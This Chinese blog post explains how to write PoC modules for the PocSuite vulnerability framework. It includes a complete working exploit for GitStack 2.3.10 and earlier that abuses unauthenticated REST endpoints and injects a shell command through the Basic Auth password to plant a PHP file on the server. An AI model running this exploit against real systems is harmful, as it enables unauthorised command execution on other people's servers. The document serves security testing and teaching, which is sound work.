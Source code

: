 ```yaml
---
layout: post
title:  "PocSuite 编写及使用笔记"
date:   2019-7-29 15:18:43
categories: Development
author: co0ontty
categories: 安全开发 ALL
tags: 安全开发 ALL
describe: PocSuite 编写及使用笔记
cover: '/assets/img/posts/pocsuitecover.png'
---
```

## 关于 PocSuite
[PocSuite](http://pocsuite.org)是由知道创宇 404 实验室编写的一款基于 python 的开源漏洞利用框架。PocSuite 包含漏洞检测和利用两种模式，可以针对特定漏洞对多个目标进行探测并返回漏洞检测及利用的结果。
![使用过程图](/assets/img/posts/pocsuite1.png)
## PocSuite2
关于 PocSuite2 的编写方法及使用过程中的注意事项
### PocSuite2 编写格式
PocSuite 检测模块的构成主要由以下几部分构成：
·python 库的引用模块
·关于 poc 的介绍信息模块
·漏洞检测代码模块
·漏洞利用代码模块
·返回结果模块
### python 库引用模块
```python
from pocsuite.api.poc import register
from pocsuite.api.poc import Output, POCBase
import requests
import random
import os
import sys
import hashlib
import string
from requests.auth import HTTPBasicAuth
```
在该模块声明漏洞检测及利用过程中需要使用到的 python 库，其中`from pocsuite.api.poc import Output, POCBase 和 from pocsuite.api.poc import register`是必须要引用的库

### 关于 poc 的介绍信息模块
```python
    vulID = 'N/A' #根据seebug提供的漏洞编号进行编写，没有的话可以写N/A
    version = '1.0' #该poc的版本
    author = 'co0ontty' #编写作者
    vulDate = '2019-7-11' #漏洞时间
    createDate = '2019-7-16' #创建poc的时间
    updateDate = '2019-7-16' #更新时间
    references = ['https://xz.gmail.com/t/2235'] #关于该漏洞的参考信息网站
    name = 'GitStack <= 2.3.10 远程命令执行漏洞分析' #漏洞名称
    appPowerLink = 'https://gitstack.com' #存在漏洞的服务的官网
    appName = 'GitStack' #存在漏洞的服务的名称
    appVersion = 'GitStack <= 2.3.10' #存在漏洞的服务的版本
    vulType = '文件上传' #该漏洞的类型（参考seebug官网的漏洞类型分类）
    desc = '''
    该漏洞利用GitStack正常使用过程中调用的接口的未授权访问漏洞，越权读取、创建、修改用户列表、仓库。通过进一步利用实现恶意文件的上传。
    ''' # 漏洞的介绍信息
    samples = []
    install_requires = []
```
### 漏洞检测代码模块
```python
def _verify(self):
        result = {}
        target = self.url
        #your verify code
        if 判断条件:
            result['VerifyInfo'] = {} # 标识为成功
            result['VerifyInfo']['URL'] = self.url #返回到结果中的url
            pass
        return self.parse_output(result) # 返回结果
```
系统会根据用户编写的检测代码对漏洞进行检测，设置判断条件后，如果判断条件为真，则使用`result['VerifyInfo'] = {}`返回判断结果为真，并且使用`result['VerifyInfo']['URL'] = self.url`返回向返回结果中输出特定的值。最后程序在运行`return self.parse_output(result)`结果输出代码的时候，如果存在`result['VerifyInfo'] = {}`则返回 success，如果不存在则判断为 faild
### 漏洞利用代码模块

```python
def _attack(self):
    # attack code 
```
一般情况下会设置检测代码与漏洞利用代码相同：
```python
_attack = _verify
```
### 返回结果模块

```python
def parse_output(self, result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('Internet nothing returned')
        return output
```
将漏洞检测模块或者漏洞利用模块的结果输出到屏幕中显示

### 完整代码分享
GitStack 任意文件上传漏洞
```python
#!/usr/bin/python
# -*- coding: utf-8 -*-
# from pocsuite.api.request import req
from pocsuite.api.poc import register
from pocsuite.api.poc import Output, POCBase
import requests
import random
import os
import sys
import hashlib
import string
from requests.auth import HTTPBasicAuth


class TestPOC(POCBase):
    vulID = 'N/A'
    version = 'GitStack <= 2.3.10'
    author = 'co0ontty'
    vulDate = '2019-7-11'
    createDate = '2019-7-16'
    updateDate = '2018-3-31'
    references = ['https://xz.gmail.com/t/2235']
    name = 'GitStack <= 2.3.10 远程命令执行漏洞分析'
    appPowerLink = 'https://gitstack.com'
    appName = 'GitStack'
    appVersion = 'GitStack <= 2.3.10'
    vulType = '文件上传'
    desc = '''
    该漏洞利用GitStack正常使用过程中调用的接口的未授权访问漏洞，越权读取、创建、修改用户列表、仓库。通过进一步利用实现恶意文件的上传。
    '''
    samples = []
    install_requires = []

    def _verify(self):
        result = {}
        target = self.url
        repository = 'rce'
        username = 'rce'
        password = 'rce'
        csrf_token = 'token'
        user_list = []
        r = requests.get("{}/rest/user/".format(target))
        try:
            user_list = r.json()
            user_list.remove('everyone')
        except:
            pass
        if len(user_list) > 0:
            username = user_list[0]
        else:
            r = requests.post("{}/rest/user/".format(target),data={'username' : username, 'password' : password})
        r = requests.get("{}/rest/repository/".format(target))
        repository_list = r.json()
        if len(repository_list) > 0:
            repository = repository_list[0]['name']
        r = requests.post("{}/rest/repository/".format(target), cookies={'csrftoken' : csrf_token}, data={'name' : repository, 'csrfmiddlewaretoken' : csrf_token})
        r = requests.post("{}/rest/repository/{}/user/{}/".format(target, repository, username))
        r = requests.delete("{}/rest/repository/{}/user/{}/".format(target, repository, "everyone"))
        random_file_name = ''.join(random.sample(string.ascii_letters+string.digits,16))+".php"
        random_identify_code = ''.join(random.sample(string.ascii_letters+string.digits,35))
        r = requests.get('{}/web/index.php?p={}.git&a=summary'.format(target, repository), auth=HTTPBasicAuth(username, 'p && echo "<?php echo"'+random_identify_code+'"; ?>" > c:'+random_file_name))
        test_url = target+"/web/"+random_file_name
        r = requests.get(test_url)
        if (r.status_code == 200)&(random_identify_code in r.text):
            result['VerifyInfo'] = {}
            result['VerifyInfo']['URL'] = self.url
            pass
        return self.parse_output(result)

    _attack = _verify

    def parse_output(self, result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('Internet nothing returned')
        return output


register(TestPOC)

```
## 库的使用
### requests 库
pocsuite 中自带经过改装的 req，`from pocsuite.api.request import req`，pocsuite 中的 req 可以使用随机的 UA
### urlparse
使用如下命令时，py 中调用目标的方式时通过 self.url 和 self.target 
```python
pocsuite -r portals_urllib.py -u 172.16.5.155:8080
```
self.url 与 self.target 的区别为：如果 -u 传递的参数没有指定 http 或者 https 的话，self.url 会自动添加 http:// 而 self.target 则不会做任何操作。
![使用过程图](/assets/img/posts/pocsuite-4.png)
不管怎样，self.url 和 self.target 均无法对端口进行识别和操作，所以我们要引入 urlparse 库：
### urlparse 库
**urlparse.urlparse(分离）**
![urlparse.urlparse](/assets/img/posts/pocsuite-6.png)
**urlparse.urljoin（合并）**
![urlparse.urljoin](/assets/img/posts/pocsuite-5.png)